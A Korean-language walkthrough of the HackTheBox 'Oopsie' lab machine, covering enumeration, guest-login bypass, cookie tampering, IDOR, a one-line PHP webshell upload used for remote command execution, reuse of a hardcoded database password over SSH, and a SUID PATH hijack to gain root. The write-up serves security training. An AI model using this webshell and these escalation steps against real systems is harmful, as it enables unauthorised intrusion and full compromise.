# Oopsie

## 개요

웹 애플리케이션의 인증 및 접근 제어 취약점을 연쇄적으로 활용해 초기 침투에 성공하고, SUID 바이너리의 PATH 하이재킹을 통해 root 권한을 획득하는 머신이다. Guest 로그인으로 진입한 뒤 쿠키를 조작해 admin 권한을 탈취하고, IDOR로 admin의 Access ID를 확보한다. 이후 파일 업로드 취약점으로 PHP 웹쉘을 배포해 RCE를 달성하고, 소스 파일에 하드코딩된 DB 크리덴셜로 SSH에 접속한다. 마지막으로 SUID가 설정된 바이너리가 절대 경로 없이 `cat`을 호출하는 점을 이용해 PATH 하이재킹으로 root 쉘을 획득한다. 인증 우회, Broken Access Control, IDOR, 파일 업로드, 크리덴셜 재사용, PATH 하이재킹이라는 여섯 가지 취약점이 하나의 흐름으로 연결되는 전형적인 Linux 웹 침투 흐름을 실습할 수 있다.

## 대상 정보

| 항목 | 내용 |
|------|------|
| 플랫폼 | HackTheBox Starting Point Tier 2 |
| 운영체제 | Linux (Ubuntu 18.04) |
| 개방 포트 | 22 (SSH), 80 (HTTP) |
| 주요 기술 스택 | Apache 2.4.29, PHP |
| 취약점 | 인증 우회, Cookie Tampering (Broken Access Control), IDOR, 파일 업로드 (RCE), 크리덴셜 하드코딩 및 재사용, SUID + PATH Hijacking |

---

## 풀이 과정

### 1. 포트 스캔

nmap으로 대상 서버의 열린 포트와 서비스 버전을 확인한다.

```bash
nmap -sC -sV $IP
```



22(SSH, OpenSSH 7.6p1)와 80(HTTP, Apache 2.4.29) 두 포트가 열려 있다. SSH는 현재 크리덴셜이 없으므로 접근이 불가능하다. 웹 서비스(80)부터 분석해 초기 침투 경로를 탐색하는 것이 자연스러운 순서다.

---

### 2. 디렉토리 열거

웹 서버에 어떤 경로가 존재하는지 파악하기 위해 gobuster로 디렉토리 브루트포싱을 진행했다.

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
```





`/uploads`, `/index.php` 등이 확인되었다. `/cdn-cgi/login` 경로는 gobuster 결과에 직접 나타나지 않았다. 로그인 기능이 존재한다면 메인 페이지 소스에서 해당 경로를 참조하고 있을 가능성이 있으므로 소스를 직접 분석하기로 했다.

---

### 3. 메인 페이지 소스에서 로그인 경로 발견

curl로 메인 페이지 소스를 받아 login, href 관련 문자열을 grep으로 필터링했다.

```bash
curl -s http://$IP | grep -i "login\|href"
```



소스 하단에서 `/cdn-cgi/login/script.js` 참조를 발견했다. 스크립트 파일이 해당 경로에 위치한다는 것은 `/cdn-cgi/login/` 디렉토리 자체에 로그인 페이지가 존재한다는 의미다.

---

### 4. 로그인 페이지 분석 및 Guest 로그인

`/cdn-cgi/login/` 경로로 직접 접근하자 MegaCorp Automotive의 로그인 페이지가 나타났다.



계정 크리덴셜은 없지만 **Login as Guest** 링크가 보인다. 이 링크가 실제로 어떤 URL로 연결되는지 소스를 통해 확인했다.

```bash
curl -s http://$IP/cdn-cgi/login/
```





소스에서 `href="/cdn-cgi/login/?guest=true"` 를 발견했다. 쿼리 파라미터 하나만으로 Guest 세션을 부여하는 구조로, 서버가 별도의 인증 절차 없이 파라미터 값만으로 로그인 상태를 결정하고 있다. 해당 URL로 직접 접근하면 인증 없이 Guest로 진입할 수 있다.



Guest로 로그인하면 `admin.php`로 리디렉션되며 Account, Branding, Clients, Uploads 메뉴가 노출된다. 단, Uploads 기능은 더 높은 권한이 필요한 것으로 보인다.

---

### 5. 쿠키 구조 분석 — Broken Access Control

권한 제어에 어떤 값이 사용되는지 파악하기 위해 Guest 로그인 후 브라우저 DevTools의 Storage 탭에서 쿠키를 확인했다.



쿠키에 `role=guest`, `user=2233` 두 값이 평문으로 저장되어 있다. `HttpOnly=false`, `Secure=false`라 클라이언트에서 자유롭게 읽고 수정할 수 있다. 서버가 이 쿠키 값을 신뢰해 권한을 결정한다면, `role`을 `admin`으로 조작하는 것만으로 admin 기능에 접근할 수 있다. 단, admin에 해당하는 `user` 값(Access ID)을 먼저 파악해야 한다.

---

### 6. IDOR — admin Access ID 획득

Account 메뉴는 URL에 `?content=accounts&id=N` 파라미터로 계정 정보를 조회하는 구조다. Guest 계정의 id가 2임을 확인한 뒤, id=1로 변경해 다른 계정 정보가 노출되는지 테스트했다. 서버가 사용자 권한을 검증하지 않고 id 파라미터 값만으로 데이터를 반환한다면 IDOR(Insecure Direct Object Reference) 취약점에 해당한다.





id=1 조회 결과 admin의 Access ID가 **34322**임을 확인했다. 서버는 현재 로그인한 사용자가 해당 계정의 정보를 조회할 권한이 있는지 검증하지 않았다.

---

### 7. 쿠키 조작으로 admin 권한 획득

확보한 admin Access ID를 바탕으로 DevTools에서 쿠키 값을 직접 수정했다.

- `role`: `guest` → `admin`
- `user`: `2233` → `34322`

페이지를 새로고침하면 서버는 조작된 쿠키를 그대로 신뢰하고 admin 권한으로 처리한다.



쿠키 조작 후 Uploads 메뉴에 접근하면 파일 업로드 폼이 활성화된다.

---

### 8. PHP 웹쉘 업로드 및 RCE 확인

업로드 폼이 파일 확장자를 검증하는지 테스트하기 위해 최소한의 PHP 웹쉘을 생성했다. GET 파라미터 `cmd`를 통해 서버에서 임의 명령을 실행하는 구조다.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```


Brand Name 필드에 임의 값을 입력하고 `shell.php`를 업로드했다.





서버는 PHP 파일을 별도 검증 없이 그대로 수락했다. gobuster에서 확인한 `/uploads/` 경로에 파일이 저장되었을 것으로 추론하고 curl로 직접 접근해 명령 실행을 테스트했다.

```bash
curl "http://$IP/uploads/shell.php?cmd=id"
```



`uid=33(www-data)` 응답을 통해 RCE 성공을 확인했다. 웹서버 프로세스 권한으로 서버에서 임의 명령을 실행할 수 있는 상태다.

---

### 9. 서버 파일 구조 파악 및 DB 크리덴셜 탈취

권한 상승 경로를 탐색하기 위해 웹루트 내 PHP 파일 목록을 확인했다. 소스 파일, 특히 DB 연결 파일에는 크리덴셜이 하드코딩되는 경우가 많다.

```bash
curl "http://10.129.17.161/uploads/shell.php?cmd=find+/var/www/html+-name+'*.php'"
```



`/var/www/html/cdn-cgi/login/db.php`가 존재한다. 해당 파일의 내용을 확인했다.

```bash
curl "http://10.129.17.161/uploads/shell.php?cmd=cat+/var/www/html/cdn-cgi/login/db.php"
```



`mysqli_connect('localhost', 'robert', 'M3g4C0rpUs3r!', 'garage')` — robert 계정의 패스워드가 소스 파일에 평문으로 하드코딩되어 있었다. 이 크리덴셜이 SSH 계정에도 재사용되었을 가능성을 확인하기로 했다.

---

### 10. SSH 접속

획득한 크리덴셜(`robert / M3g4C0rpUs3r!`)로 SSH 접속을 시도했다.

```bash
ssh robert@10.129.17.161
```



접속에 성공했다. DB 크리덴셜이 시스템 계정에도 재사용된 경우다.

---

### 11. 사용자 권한 확인 및 권한 상승 벡터 탐색

로그인 후 `id` 명령으로 현재 사용자의 그룹 소속을 확인했다. 비표준 그룹 소속은 해당 그룹이 접근 가능한 파일이나 바이너리를 통해 권한 상승 벡터가 될 수 있다.

```bash
id
```



`groups=1000(robert),1001(bugtracker)` — robert가 `bugtracker` 그룹에 소속되어 있다. 이 그룹이 접근 가능한 파일을 시스템 전체에서 검색했다.

```bash
find / -group bugtracker 2>/dev/null
```



`/usr/bin/bugtracker` 바이너리가 유일하게 검색되었다. 실행 파일이므로 권한과 SUID 여부를 즉시 확인했다.

```bash
ls -la /usr/bin/bugtracker
```



`-rwsr-xr--`, root 소유 — `s` 비트(SUID)가 설정되어 있어 실행 시 실제 소유자인 root 권한으로 동작한다. bugtracker 그룹 멤버인 robert는 이 바이너리를 실행할 수 있으므로 내부 동작을 분석할 필요가 있다.

---

### 12. bugtracker 바이너리 분석

bugtracker를 직접 실행해 동작 방식을 파악했다.

```bash
/usr/bin/bugtracker
```



Bug ID를 입력받아 `/root/reports/` 하위 파일을 출력하는 구조다. 내부에서 어떤 명령을 어떤 방식으로 호출하는지 파악하기 위해 `strings`로 바이너리에 포함된 문자열을 추출했다.

```bash
strings /usr/bin/bugtracker
```

`cat /root/reports/` 문자열이 확인되었다. 여기서 핵심은 `cat`을 절대 경로(`/bin/cat`)가 아닌 **상대 경로**로 호출한다는 점이다. 상대 경로 명령 실행은 PATH 환경변수에 의존하므로, PATH를 조작해 악의적인 `cat`을 먼저 실행시키는 PATH 하이재킹 공격이 가능하다.

---

### 13. PATH 하이재킹으로 root 쉘 획득

공격 원리는 다음과 같다. bugtracker는 SUID로 인해 root 권한으로 실행되며, 내부에서 `cat`을 상대 경로로 호출한다. `/tmp`에 `/bin/sh`를 실행하는 가짜 `cat`을 만들고 PATH 앞에 `/tmp`를 추가하면, bugtracker가 `/bin/cat` 대신 `/tmp/cat`을 root 권한으로 실행한다.

```bash
echo '/bin/sh' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
```



```bash
/usr/bin/bugtracker
```

